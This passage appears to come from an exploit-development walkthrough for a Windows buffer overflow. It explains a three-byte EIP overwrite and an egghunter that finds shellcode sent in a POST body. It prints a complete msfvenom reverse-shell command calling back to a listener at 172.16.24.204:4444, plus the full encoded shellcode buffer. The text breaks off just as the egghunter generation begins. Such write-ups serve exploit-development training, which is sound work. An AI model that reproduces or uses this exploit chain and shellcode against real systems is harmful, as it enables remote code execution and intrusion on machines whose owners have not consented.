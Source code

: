 We can choose the last one ```0x0042119c```.
Address has a null byte so we cannot use it in payload as such, but since there are nullbytes in front of EIP location we can perform three byte overwrite by sending only three bytes and shortening payload length. By doing that null byte will be automaticaly "added" to address on the stack.
  
When we generate reverse shell payload, it takes more than 270 bytes we have at our disposal so we cannot place it in payload. What we can do is to generate egghunter and place reverse shell code somewhere else in a memory. We can add it after last header to act as POST request payload. We will tag shellcode with two instances of egg (w00t) and let egghunter search for it. Once egghunter finds two eggs, it redirect execution of a program to shellcode which is located after the second egg.

```
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.24.204 LPORT=4444 -f python -a x86 -b "\x00\x0a\x3f"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xda\xc4\xb8\x8b\xf1\x1b\x53\xd9\x74\x24\xf4\x5e\x29"
buf += b"\xc9\xb1\x52\x31\x46\x17\x03\x46\x17\x83\x4d\xf5\xf9"
buf += b"\xa6\xad\x1e\x7f\x48\x4d\xdf\xe0\xc0\xa8\xee\x20\xb6"
buf += b"\xb9\x41\x91\xbc\xef\x6d\x5a\x90\x1b\xe5\x2e\x3d\x2c"
buf += b"\x4e\x84\x1b\x03\x4f\xb5\x58\x02\xd3\xc4\x8c\xe4\xea"
buf += b"\x06\xc1\xe5\x2b\x7a\x28\xb7\xe4\xf0\x9f\x27\x80\x4d"
buf += b"\x1c\xcc\xda\x40\x24\x31\xaa\x63\x05\xe4\xa0\x3d\x85"
buf += b"\x07\x64\x36\x8c\x1f\x69\x73\x46\x94\x59\x0f\x59\x7c"
buf += b"\x90\xf0\xf6\x41\x1c\x03\x06\x86\x9b\xfc\x7d\xfe\xdf"
buf += b"\x81\x85\xc5\xa2\x5d\x03\xdd\x05\x15\xb3\x39\xb7\xfa"
buf += b"\x22\xca\xbb\xb7\x21\x94\xdf\x46\xe5\xaf\xe4\xc3\x08"
buf += b"\x7f\x6d\x97\x2e\x5b\x35\x43\x4e\xfa\x93\x22\x6f\x1c"
buf += b"\x7c\x9a\xd5\x57\x91\xcf\x67\x3a\xfe\x3c\x4a\xc4\xfe"
buf += b"\x2a\xdd\xb7\xcc\xf5\x75\x5f\x7d\x7d\x50\x98\x82\x54"
buf += b"\x24\x36\x7d\x57\x55\x1f\xba\x03\x05\x37\x6b\x2c\xce"
buf += b"\xc7\x94\xf9\x41\x97\x3a\x52\x22\x47\xfb\x02\xca\x8d"
buf += b"\xf4\x7d\xea\xae\xde\x15\x81\x55\x89\xb5\x46\x4d\x85"
buf += b"\xae\x64\x6d\x04\x73\xe0\x8b\x4c\x9b\xa4\x04\xf9\x02"
buf += b"\xed\xde\x98\xcb\x3b\x9b\x9b\x40\xc8\x5c\x55\xa1\xa5"
buf += b"\x4e\x02\x41\xf0\x2c\x85\x5e\x2e\x58\x49\xcc\xb5\x98"
buf += b"\x04\xed\x61\xcf\x41\xc3\x7b\x85\x7f\x7a\xd2\xbb\x7d"
buf += b"\x1a\x1d\x7f\x5a\xdf\xa0\x7e\x2f\x5b\x87\x90\xe9\x64"
buf += b"\x83\xc4\xa5\x32\x5d\xb2\x03\xed\x2f\x6c\xda\x42\xe6"
buf += b"\xf8\x9b\xa8\x39\x7e\xa4\xe4\xcf\x9e\x15\x51\x96\xa1"
buf += b"\x9a\x35\x1e\xda\xc6\xa5\xe1\x31\x43\xd5\xab\x1b\xe2"
buf += b"\x7e\x72\xce\xb6\xe2\x85\x25\xf4\x1a\x06\xcf\x85\xd8"
buf += b"\x16\xba\x80\xa5\x90\x57\xf9\xb6\x74\x57\xae\xb7\x5c"
```

Generating egghunter:
